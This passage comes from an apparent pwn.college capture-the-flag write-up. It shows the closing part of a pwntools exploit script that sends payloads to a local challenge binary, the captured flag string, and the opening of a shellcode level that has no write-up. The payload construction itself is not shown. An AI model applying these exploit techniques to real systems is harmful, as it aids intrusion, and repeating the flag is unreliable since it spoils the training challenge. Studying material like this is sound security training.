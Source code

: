 ```python
        target.recvuntil(b"Send your payload")
        send_payload(target, payload)

        response = target.recvall(timeout=5)

        return b"pwn.college{" in response
    except Exception as e:
        log.exception(f"An error occurred while performing attack: {e}")


def main():
    try:
        target = launch()
        payload = construct_payload(1)

        send_payload(target, payload)

        payload = construct_payload(2)

        if attack(target, payload):
            log.success("Success! Exiting...")

            pause()
            exit()
    except Exception as e:
        log.exception(f"An error occurred in main: {e}")


if __name__ == "__main__":
    main()
```

## Flag

Flag: `pwn.college{YRuLYIKU6u9uASqOycoKQO17Ttn.0VOxMDL5cTNxgzW}`

# Level 1.1

## Information

- Category: Pwn

## Description

> Write a full exploit involving shellcode and a method of tricking the challenge into executing it.

## Write-up
